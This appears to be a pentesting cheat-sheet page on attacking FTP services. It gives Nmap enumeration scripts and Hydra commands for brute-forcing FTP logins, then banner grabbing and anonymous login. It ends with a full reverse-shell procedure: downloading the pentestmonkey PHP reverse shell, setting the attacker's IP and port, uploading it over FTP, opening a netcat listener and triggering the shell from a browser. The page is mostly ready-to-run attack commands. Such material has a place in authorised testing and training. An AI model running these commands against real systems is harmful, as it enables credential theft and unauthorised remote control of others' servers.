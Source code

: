 ```yaml
---
title: File Transfer Protocol (FTP) Pentesting
desc: Default port is 21.
tags: [FTP, Hydra, Netcat, Network, Nmap, Web]
alts: [Reverse-Shell]
render_with_liquid: false
---
```


## 1. Enumeration

1. **Use Nmap**

    ```sh
    nmap --script ftp-anon -p 21 <target-ip>
    nmap --script ftp-vuln* -p 21 <target-ip>
    nmap --script ftp-* -p 21 <target-ip>
    ```

2. **Brute Force Credentials**

    ```sh
    hydra -l username -P passwords.txt <target-ip> ftp
    hydra -L username.txt -p password <target-ip> ftp

    hydra -l username -P passwords.txt ftp://<target-ip>
    hydra -L usernames.txt -p password ftp://<target-ip>
    ```

<br />

## 2. Investigation

1. **Banner Grabbing**

    ```sh
    nc <target-ip> 21
    ```

    - **Use OpenSSL**

        First off, open listener.

        ```sh
        nc -vn <target-ip> 21
        ```

        Then run the command below.

        ```sh
        openssl s_client -connect <target-ip>:21 -starttls ftp
        ```

<br />

## 2. Connect FTP

```sh
ftp username@10.0.0.1
```

Sometimes you might be able to the **anonymous** login.  
Not likely, but worth a try.

```
ftp 10.0.0.1 
username: anonymous
password: anonymous
```

<br />

## 3. Search Files in FTP

1. **Basic Investigation**

    If you can connect FTP, search directories and files, then download them to your local machine.

    ```sh
    ftp> ls

    # Transfer files to the local machine.
    ftp> get sample.txt
    ```

<br />

## 4. Reverse Shell over FTP

If the target website allows users to access the ftp directory, you can upload the exploit for the reverse shell and get a shell.  

1. **Download the Payload**

    Get the payload for the reverse shell from [this repository](https://github.com/pentestmonkey/php-reverse-shell){:target="_blank"}.

    ```sh
    wget https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php -O shell.php

    # Edit some variables
    $ip = '<your-local-ip>';
    $port = 1234;
    ```

2. **Upload the Payload to FTP Directory**

    Connect to FTP and upload.

    ```sh
    ftp username@<target-ip>

    # Upload the payload you downloaded
    ftp > put shell.php
    ```

3. **Get a Shell**

    At first, you need to open listener in your local machine.

    ```sh
    nc -lvnp 1234
    ```

    In a web browser, access to "http://vulnerable.com/path/to/ftp/shell.php".  
    You should get a target shell.